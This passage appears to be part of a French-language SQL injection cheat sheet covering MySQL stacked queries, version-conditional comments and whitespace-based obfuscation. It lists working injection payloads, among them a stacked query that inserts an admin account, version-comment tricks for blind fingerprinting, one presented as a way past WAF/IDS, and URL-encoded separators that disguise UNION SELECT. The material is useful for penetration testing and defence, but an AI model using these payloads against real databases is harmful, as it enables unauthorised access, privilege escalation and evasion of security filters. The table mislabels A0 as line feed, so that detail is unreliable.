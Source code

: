 PDO_MYSQL supporte les requêtes empilées ainsi que MySQLi via la fonction multi_query().

**Exemples :**

SELECT * FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users(username, password, right) VALUES ('myLogin', 'myPassword','admin');

SELECT * FROM Users WHERE ID=1 AND 1=0; SHOW COLUMNS FROM Users;

## Requêtes multi-versions

MySQL permet de réaliser des requêtes uniques destinées à différentes versions de la base de données.

**Exemples :**
UNION SELECT /*!60000 6,*//*!50000 5,*//*!40000 4,*//*!30000 3,*/0; --
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/);
SELECT /*!32302 1/0, */ 1 FROM tablename
**Remarques :**

- Le premier exemple retourne toutes les versions inférieures ou égale à l’actuelle.
- Le second exemple démontre la possibilité de bypasser certains WAF/IDS
- Le troisième exemple affiche une erreur de division par 0 si MySQL > 3.23.03
- Ce mécanisme permet de connaitre la version MySQL de manière aveugle.

## Obscurcissement de requêtes

### Caractères intermédiaires de séparation

Le tableau suivant décrit les caractères hexadécimaux utilisables comme un espace blanc.

|     |     |
| --- | --- |
| 09  | Tabulation horizontale |
| 0A  | Nouvelle ligne |
| 0B  | Tabulation verticale |
| 0C  | Nouvelle page |
| 0D  | Retour chariot |
| A0  | Fin de ligne (*Line Feed*) |
| 20  | Espace |

**Exemples :**
'%0A%09UNION%0CSELECT%A0NULL%20%23
Les parenthèses peuvent également servir de séparateur.

|     |     |
| --- | --- |
| 28  | (   |
| 29  | )   |
